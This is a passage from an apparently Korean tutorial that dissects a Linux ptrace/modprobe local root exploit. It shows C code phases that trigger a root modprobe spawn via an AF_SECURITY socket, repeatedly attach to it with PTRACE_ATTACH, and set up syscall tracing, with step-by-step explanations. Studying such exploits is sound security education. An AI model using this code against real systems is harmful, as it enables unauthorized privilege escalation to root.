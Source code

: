     fprintf(stderr, "-&gt; Parent's PID is %d. Child's PID is %d.\n", 
            parent, child);
    fprintf(stderr, "-&gt; Attaching to %d...", k_child);

    // 시그널 핸들러 설정
    signal(SIGCHLD, sigchld);
    signal(SIGALRM, sigalrm);
    alarm(10);  // 10초 타임아웃</code></pre><p>Phase 3: 부모 프로세스 - 취약점 트리거</p>
<pre><code>default:  // 부모 프로세스
    signal(SIGALRM, sigalrm);
    alarm(10);

    // 핵심! AF_SECURITY 소켓 생성으로 modprobe 실행 유도
    socket(AF_SECURITY, SOCK_STREAM, 1);
    break;</code></pre><p>시스템 반응: # 커널이 자동으로 실행하는 명령 /sbin/modprobe -s -k net-pf-14
프로세스 상태:
PID  USER     COMMAND
1000 user     ./exploit          (부모)
1001 user     ./exploit          (자식)<br/>1002 root     /sbin/modprobe -s -k net-pf-14  ← 공격 대상!</p>
<p>Phase 4: ptrace Attach 시도</p>
<pre><code>// 무한 루프로 attach 시도
while ((error = ptrace(PTRACE_ATTACH, k_child, 0, 0) == -1) &amp;&amp; 
       (errno == ESRCH)) {
    fprintf(stderr, ".");
}

if (error == -1) {
    fprintf(stderr, "-&gt; Unable to attach to %d.\n", k_child);
    exit(0);
}

fprintf(stderr, "\n-&gt; Got the thread!!\n");</code></pre><ul>
<li>상세한 동작:<ul>
<li>PTRACE_ATTACH로 PID 1002에 연결 시도</li>
<li>ESRCH 에러: "No such process" - 아직 프로세스가 생성되지 않음</li>
<li>반복적으로 시도하다가 성공하면 "Got the thread!!" 출력</li>
</ul>
</li>
<li>성공 시 효과:<ul>
<li>modprobe 프로세스가 SIGSTOP 시그널을 받고 정지</li>
<li>자식 프로세스가 SIGCHLD 시그널을 받음 (sigc 증가)</li>
</ul>
</li>
</ul>
<p>Phase 5: 시스템콜 추적 설정</p>
<pre><code>// SIGCHLD 시그널 대기 (ptrace attach 성공 확인)
while(sigc &lt; 1);

// 시스템콜 추적 모드 설정
if (ptrace(PTRACE_SYSCALL, k_child, 0, 0) == -1) {
    fprintf(stderr, "-&gt; Unable to setup syscall trace.\n");
    exit(0);
}
